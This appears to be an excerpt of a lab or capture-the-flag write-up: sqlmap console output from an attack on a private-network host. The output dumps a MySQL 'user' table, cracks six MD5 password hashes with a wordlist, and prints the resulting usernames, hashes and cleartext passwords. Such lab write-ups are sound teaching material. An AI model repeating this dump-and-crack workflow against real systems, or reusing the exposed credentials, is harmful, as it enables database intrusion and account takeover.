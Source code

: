 
---
[12:15:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:15:25] [INFO] fetching columns for table 'user' in database 'ehks'
[12:15:25] [INFO] fetching entries for table 'user' in database 'ehks'
[12:15:25] [INFO] analyzing table dump for possible password hashes
[12:15:25] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[12:15:34] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[12:15:35] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[12:15:36] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:15:36] [INFO] starting 4 processes
[12:15:37] [INFO] cracked password 'Homesite' for user 'pmoore'                                                                                                                       
[12:15:38] [INFO] cracked password 'Sue1978' for user 'jdurbin'                                                                                                                       
[12:15:39] [INFO] cracked password 'ilike2surf' for user 'dstevens'                                                                                                                   
[12:15:42] [INFO] cracked password 'pacman' for user 'sorzek'                                                                                                                         
[12:15:42] [INFO] cracked password 'undone1' for user 'ghighland'                                                                                                                     
[12:15:43] [INFO] cracked password 'seventysixers' for user 'achen'                                                                                                                   
[12:15:44] [INFO] postprocessing table dump                                                                                                                                           
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+

[12:15:44] [WARNING] table 'ehks.`user`' dumped to CSV file '/root/.sqlmap/output/192.168.30.147/dump/ehks/user-f3649c95.csv'
[12:15:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.30.147'

{% endhighlight %}
